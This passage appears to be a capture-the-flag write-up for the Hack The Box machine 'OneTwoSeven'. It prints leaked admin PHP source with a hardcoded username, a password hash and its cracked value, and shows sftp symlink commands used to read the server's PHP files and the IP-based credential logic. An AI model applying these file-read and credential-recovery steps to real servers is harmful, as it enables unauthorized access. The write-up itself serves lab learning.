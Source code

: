 The file contains a bunch of interesting things:

```php
if ($_POST['username'] == 'ots-admin' && hash('sha256',$_POST['password']) == '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8') {
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
[...]
<p>Administration backend. For administrators only.</p>
<h1>OneTwoSeven Administration</h1>
[...]
<?php session_start(); if (isset ($_SESSION['username'])) { header("Location: /menu.php"); } ?>
<?php if ( $_SERVER['SERVER_PORT'] != 60080 ) { die(); } ?>
[...]
```

- There's an `ots-admin` user with a sha256 hash that is easily crackable to `Homesweethome1`
- The page mentions this is some kind of administration backend webpage
- The page is supposed to be accessed on port 60080 (which is firewalled / not listening on the 10.10.10.133 IP address)

### Getting the user flag

I can get the source of all the PHP files from the main website:

```
sftp> ln -s /var/www/html/signup.php signup.txt
sftp> ln -s /var/www/html/index.php index.txt
sftp> ln -s /var/www/html/stats.php stats.txt
sftp> rm index.html
Removing /public_html/index.html
```

![](/assets/images/htb-writeup-onetwoseven/symlink4.png)

The `signup.php` file is interesting because it contains the logic used to generate the username and password:

```php
<?php
function username() { $ip = $_SERVER['REMOTE_ADDR']; return "ots-" . substr(str_replace('=','',base64_encode(substr(md5($ip),0,8))),3); }
function password() { $ip = $_SERVER['REMOTE_ADDR']; return substr(md5($ip),0,8); }
?>
```
